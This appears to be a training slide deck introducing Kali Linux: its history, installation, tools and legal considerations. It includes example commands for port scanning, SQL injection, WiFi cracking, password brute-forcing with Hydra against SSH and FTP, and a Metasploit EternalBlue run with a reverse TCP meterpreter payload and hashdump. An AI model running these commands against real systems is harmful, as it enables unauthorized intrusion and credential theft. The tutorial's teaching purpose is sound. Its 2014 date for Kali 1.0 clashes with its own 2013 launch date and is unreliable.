

Kali Linux
The Ultimate Penetration Testing Platform
Advanced Security Testing and Ethical Hacking Distribution

Kali Linux Overview
Kali Linux is a Debian-based Linux distribution specifically designed for penetration testing, ethical hacking, and digital forensics. It includes hundreds of pre-installed security tools and is maintained by Offensive Security.
Key Characteristics:
- Purpose-Built: Designed exclusively for security professionals
- Tool-Rich: Over 600 pre-installed security tools
- Open Source: Free and community-driven development
- Rolling Release: Continuously updated with latest tools
- Highly Customizable: Modular and configurable
- Multi-Platform: Runs on various hardware and virtualized
Official Website: kali.org | Maintained by: Offensive Security Ltd.
Kali Linux History
Evolution Timeline: Kali Linux represents the evolution of penetration testing distributions, building on years of security tool development.
Historical Development:
2006-2012: BackTrack Era
• BackTrack Linux: Ubuntu-based penetration testing distribution
• Popular among security professionals
• Based on Knoppix and later Ubuntu
• BackTrack 5 R3 was the final version
March 2013: Kali Linux Birth
• Complete rewrite from scratch
• Debian-based architecture
• Better package management
• Improved tool organization
2013-Present: Continuous Evolution
• Regular updates and new tool additions
• Multiple platform support
• Cloud and container integration
• Mobile and ARM support
Major Milestones:
• 2014: Kali Linux 1.0 release
• 2016: Rolling release model adoption
• 2019: Kali Linux 2019.1 major overhaul
• 2020: WSL (Windows Subsystem for Linux) support
• 2021: Kali Linux 2021.1 with new tools and features
Kali Linux Features
System Requirements:
- Minimum: 1GB RAM, 20GB disk space, x86/x64 processor
- Recommended: 4GB+ RAM, 50GB+ disk space, multi-core processor
- Optimal: 8GB+ RAM, SSD storage, dedicated GPU for cracking
Kali Linux Installation Methods
Native Installation:
- Bare Metal: Direct hardware installation
- Dual Boot: Alongside existing OS
- Full Replacement: Complete system takeover
- Benefits: Maximum performance, full hardware access
- Use Case: Dedicated security workstations
Portable and Cloud Options:
- Live USB/DVD: Boot from external media without installation
- Persistent USB: Save changes across reboots
- Cloud Instances: AWS, Azure, Google Cloud deployment
- Container: Docker images for specific tools
- WSL: Windows Subsystem for Linux integration
- Mobile: NetHunter for Android devices
Installation Process Walkthrough
Standard Installation: Step-by-step process for installing Kali Linux on a system or virtual machine.
Installation Steps:
1. Download and Preparation:
• Download ISO from official kali.org website
• Verify SHA256 checksum for integrity
• Create bootable USB using Rufus, dd, or similar
• Prepare installation target (disk/VM)
2. Boot and Initial Setup:
• Boot from installation media
• Select "Graphical Install" or "Install"
• Choose language, location, and keyboard layout
• Configure network settings
3. System Configuration:
• Set hostname (default: kali)
• Configure domain name (optional)
• Set root password (strong password required)
• Create additional user account (recommended)
4. Disk Partitioning:
• Choose partitioning method
• Guided or manual partitioning
• Configure LVM or encryption if needed
• Confirm partition changes
5. Package Installation:
• Select software packages
• Configure package manager
• Install GRUB bootloader
• Complete installation and reboot
Post-Installation Configuration
Essential First Steps: Critical configuration tasks to perform after Kali Linux installation.
System Update and Configuration:
# Update system packages
sudo apt update && sudo apt upgrade -y
# Install additional tools (if needed)
sudo apt install kali-linux-large
sudo apt install kali-linux-everything
# Configure non-root user
sudo useradd -m -s /bin/bash username
sudo usermod -aG sudo username
sudo passwd username
# Enable SSH (optional)
sudo systemctl enable ssh
sudo systemctl start ssh
# Configure firewall
sudo ufw enable
sudo ufw default deny incoming
sudo ufw default allow outgoing
# Install VMware Tools (if in VM)
sudo apt install open-vm-tools-desktop
# Install VirtualBox Guest Additions
sudo apt install virtualbox-guest-x11
Desktop Environments
GNOME (Default):
- Modern Interface: Clean and intuitive design
- Resource Usage: Moderate to high
- Customization: Extensions and themes
- Accessibility: Built-in accessibility features
- Integration: Excellent tool integration
Installing Alternative Desktop Environments:
# Install XFCE
sudo apt install kali-desktop-xfce
# Install KDE
sudo apt install kali-desktop-kde
# Install i3 window manager
sudo apt install kali-desktop-i3
# Switch between desktop environments
sudo update-alternatives --config x-session-manager
Kali Linux Tool Categories
Additional Categories:
- Database Assessment: sqlmap, NoSQL tools
- Password Attacks: John the Ripper, Hashcat, Hydra
- Wireless Attacks: Aircrack-ng, Wifite, Kismet
- Exploitation Tools: Metasploit, Social Engineering Toolkit
- Forensics: Autopsy, Volatility, Wireshark
- Reverse Engineering: Ghidra, Radare2, OllyDbg
Essential Kali Linux Tools
Network Security:
- Nmap: Network discovery and port scanning
- Wireshark: Network protocol analyzer
- Aircrack-ng: WiFi network security auditing
- Ettercap: Network security auditing
- Netcat: Network utility for reading/writing
Exploitation and Post-Exploitation:
- Metasploit Framework: Comprehensive exploitation platform
- Social Engineer Toolkit (SET): Social engineering attacks
- BeEF: Browser exploitation framework
- Empire: PowerShell and Python post-exploitation agent
- Cobalt Strike: Advanced threat emulation (commercial)
Basic Tool Usage Examples
Command-Line Mastery: Kali Linux tools are primarily command-line based, requiring terminal proficiency for effective use.
Common Tool Commands:
# Nmap - Network scanning
nmap -sS -O target.com
nmap -sV -p 1-65535 192.168.1.1
# theHarvester - Email gathering
theHarvester -d target.com -b google
theHarvester -d target.com -b all -l 500
# SQLmap - SQL injection testing
sqlmap -u "http://target.com/page.php?id=1"
sqlmap -r request.txt --batch --dbs
# Aircrack-ng - WiFi auditing
airmon-ng start wlan0
airodump-ng wlan0mon
aircrack-ng -w wordlist.txt capture.cap
# John the Ripper - Password cracking
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --show hashes.txt
# Hydra - Network login cracking
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target.com
hydra -L users.txt -P passwords.txt ftp://192.168.1.1
Metasploit Framework Deep Dive
Metasploit: The world's most popular penetration testing framework, included as a core component of Kali Linux.
Metasploit Workflow:
# Start Metasploit console
msfconsole
# Search for exploits
msf6 > search ms17-010
msf6 > search type:exploit platform:windows
# Use an exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
# Configure target and payload
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.10
# Execute the exploit
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
# Meterpreter commands
meterpreter > sysinfo
meterpreter > getuid
meterpreter > shell
meterpreter > hashdump
Customizing Kali Linux
Useful Customizations:
# Create custom aliases
echo "alias ll='ls -la'" >> ~/.bashrc
echo "alias nse='nmap --script'" >> ~/.bashrc
# Install additional tools
sudo apt install terminator htop tree
sudo gem install wpscan
# Download wordlists
sudo apt install seclists
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
Kali Linux Variants and Editions
Standard Editions:
- Kali Linux Light: Minimal installation (1GB)
- Kali Linux: Standard desktop edition (3GB)
- Kali Linux Everything: All tools included (10GB+)
- Kali Linux Live: Boot without installation
Cloud and Virtual Appliances:
- Amazon EC2: AWS marketplace images
- Microsoft Azure: Azure marketplace
- Google Cloud: GCP deployment images
- VMware: Pre-configured virtual appliances
- VirtualBox: Ready-to-use VM images
- Vagrant: Automated deployment boxes
Security and Legal Considerations
Responsible Use: Kali Linux is a powerful platform that must be used ethically and legally with proper authorization.
Security Practices:
- VM Isolation: Use virtual machines for testing
- Network Segmentation: Isolate testing networks
- Data Encryption: Encrypt sensitive findings
- Regular Updates: Keep system and tools updated
- Access Control: Use strong authentication
Legal Compliance Checklist:
✓ Written authorization from system owners
✓ Defined scope and limitations
✓ Professional liability insurance
✓ Compliance with local and international laws
✓ Data protection and privacy regulations
✓ Incident response procedures
✓ Secure evidence handling
Common Issues and Troubleshooting
Common Troubleshooting Commands:
# Update package lists
sudo apt update && sudo apt upgrade
# Fix broken packages
sudo apt --fix-broken install
# Reset network interfaces
sudo systemctl restart NetworkManager
# Check system logs
journalctl -xe
dmesg | tail
# Monitor system resources
htop
df -h
free -m
Learning Resources and Community
Official Resources:
- Kali Documentation: docs.kali.org
- Kali Tools: tools.kali.org
- Kali Forums: forums.kali.org
- Bug Reports: bugs.kali.org
- Kali Training: kali.training
Community and Support:
- IRC Channel: #kali-linux on Freenode
- Reddit: r/Kalilinux community
- Discord: Kali Linux community server
- Twitter: @kalilinux for updates
- YouTube: Official Kali Linux channel
- Conferences: DEF CON, Black Hat, BSides events
Key Takeaways
- Kali Linux is the premier platform for penetration testing and ethical hacking
- Over 600 pre-installed security tools covering all aspects of security testing
- Multiple deployment options: native, virtual, live, cloud, and mobile
- Rolling release model ensures access to latest tools and updates
- Extensive customization capabilities for professional requirements
- Strong community support and comprehensive documentation
- Must be used responsibly with proper authorization and legal compliance
- Continuous learning and practice required to master the platform
Remember: Kali Linux is a tool for authorized security professionals - always ensure you have explicit permission before conducting any security testing
Thank You
Questions & Discussion
Next: Vulnerability Scanning and Exploitation